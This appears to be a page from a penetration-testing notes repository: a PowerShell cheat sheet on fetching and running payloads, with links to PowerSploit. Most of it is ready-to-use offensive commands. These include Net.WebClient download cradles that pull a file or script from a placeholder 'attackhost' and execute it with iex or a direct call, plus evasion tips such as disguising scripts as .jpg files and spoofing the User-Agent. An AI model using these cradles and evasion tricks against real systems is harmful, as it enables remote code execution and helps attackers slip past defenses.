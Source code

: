 ##### [Execute PowerUp.ps1](../../../../Tools/Shells/Windows/PowerShell/PowerSploit/PowerUp.md)

# In-Memory Execution Methods
* Net.WebClient DownloadString (method)
* Net.WebClient DownloadData (method)
* Net.WebClient OpenRead (method)
* .NET Net.HttpWebRequest (class)
* Word.Application (COM)
* Excel.Application (COM)
* InternetExplorer.Application (COM)
* MsXml2.ServerXmlIHttp (COM)
* Certutil.exe w/ -ping argument

# Disk-Based Execution Methods
* Net.WebClient Download File
* BITSAdmin.exe
* Certutil.exe w/ -urlcache argument

# Evasion
* Use In-Memory execution.
* Use SSL when downloading scripts.
* Use a script extension other than .ps1, such as .jpg.
* Specify User-Agent with Net.WebClient

# Download File
### Download File To Disk
```powershell
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```
##### Using Variables and User-Agent
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $payload = "https://attackhost/file.exe"
PS C:\> $local_file = "file.exe"
PS C:\> $downloader.DownloadFile($payload, $local_file)
PS C:\> & $local_file # Execute file.
```
##### Using System's Proxy and Default Credentials
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $proxy = [Net.WebRequest]::GetSystemProxy()
PS C:\> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS C:\> $downloader.Proxy = $proxy
PS C:\> $payload = "https://attackhost/file.exe"
PS C:\> $local_file = "file.exe"
PS C:\> $downloader.DownloadFile($payload, $local_file)
```

### Download File To String
##### From CMD Prompt
```powershell
C:\> powershell iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/[Source File]')
```
##### From PowerShell Prompt
```powershell
PS C:\> iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/[Source File]')
```
##### Using Variables and User-Agent
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $payload = "https://attackhost/script.ps1"
PS C:\> $command = $downloader.DownloadString($payload)
PS C:\> Invoke-Expression $command
```

# Processes
##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```

# Services
##### Get List of Running Services
```powershell
powershell Get-Service
```

# [From Meterpreter](../../../Metasploit/README.MD#PowerShell)

# References
##### [Generates obfuscated PowerShell snippets](https://amsi.fail/)

##### [Approved Verbs for PowerShell Commands](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [Everything you wanted to know about the if statement](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-if?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [How to run a PowerShell script from the command prompt?](https://www.tutorialspoint.com/how-to-run-a-powershell-script-from-the-command-prompt)

##### [Learn X in Y minutes](https://learnxinyminutes.com/docs/powershell/)

##### [Powershell](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powershell.html)

##### [PowerShell Documentation](https://docs.microsoft.com/en-us/powershell/)

##### [PowerShellMafia](https://github.com/PowerShellMafia)

##### [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

##### [Use Windows PowerShell to search for files](https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/)

##### [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-7.1)